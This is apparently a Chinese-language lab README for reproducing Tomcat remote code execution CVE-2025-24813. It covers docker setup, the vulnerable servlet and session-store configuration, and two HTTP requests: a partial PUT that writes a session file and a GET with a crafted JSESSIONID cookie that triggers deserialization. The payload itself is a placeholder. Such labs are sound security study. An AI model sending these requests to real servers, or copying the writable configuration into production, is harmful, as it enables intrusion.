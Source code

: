 # Tomcat 远程代码执行漏洞（CVE-2025-24813）

Tomcat版本：9.0.97

## 环境搭建

```
docker compose build
docker compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- https://forum.butian.net/article/674

由于Tomcat配置了可写（readonly=false）与文件存储会话，且他们默认存储的路径都是$CATALINA_BASE/work/Catalina/localhost/ROOT
，导致我们可以往服务器写文件，并且通过指定JSESSIONID对我们写的文件触发反序列化。

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

不完整PUT请求上传时，文件路径中的分隔符/会被转换为.并临时存储在$CATALINA_BASE/work/Catalina/localhost/ROOT

```
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

开启文件存储会话

## 漏洞复现

通过Content-Range请求头构成不完整PUT请求，发送以下数据包使tomcat在临时目录写入文件.deserialize.session：

```
PUT /deserialize/session HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1000
Content-Range: bytes 0-1000/1200

反序列化内容
```

发送以下数据包触发反序列化

```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.deserialize
```

如下：

![](01.jpg)
